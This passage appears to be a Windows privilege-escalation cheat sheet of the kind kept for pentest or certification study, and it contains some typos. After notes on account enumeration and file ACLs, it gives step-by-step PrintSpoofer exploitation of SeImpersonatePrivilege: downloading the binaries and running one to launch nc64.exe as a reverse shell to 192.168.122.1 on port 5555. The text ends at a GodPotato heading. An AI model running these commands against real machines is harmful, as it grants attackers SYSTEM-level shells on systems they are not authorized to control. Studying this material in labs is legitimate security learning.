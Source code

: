 ```c
wmic useraccount get domain,name,sid
```


### File perimissions
---
 An Access Control Entry (ACE) si an individual permission rule which controls the individual permissions of a security principal on a file  object. These are the following high-level permissions for an ACL:
  - Fully Access (F)
  - Modify Access (M)
  - Read and Execute Access (RX)
  - Read-Only Access (R)
  - Write-Only Access (W)

  There are more advanced permissions too that deal with inheritance rights, which only apply to directories.
  - (OI) Object Inerit
  - (CI) Container Inherit
  - (IO) Inherit Only
  - (NP) Do not propagate inherit
  - (I) Permission inherited from parent container

Note the madatory integrity level required to access a file (if any) even if there are the required permissions
```python
icacls <file> # with cmd
Get-Acl <file> # with powershell
```


### SeImpersonatePrivilege Exploitation
---
#### PrintSpoofer

- Download the exploit

```powershell
# for 32 bit
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe" -Outfile PrintSpoofer32.exe

# for 64 bit
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe" -Outfile PrintSpoofer64.exe
```

- Execute the exploit

```powershell
PrintSpoofer64.exe -c "C:\Users\user\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
```

#### GodPotato
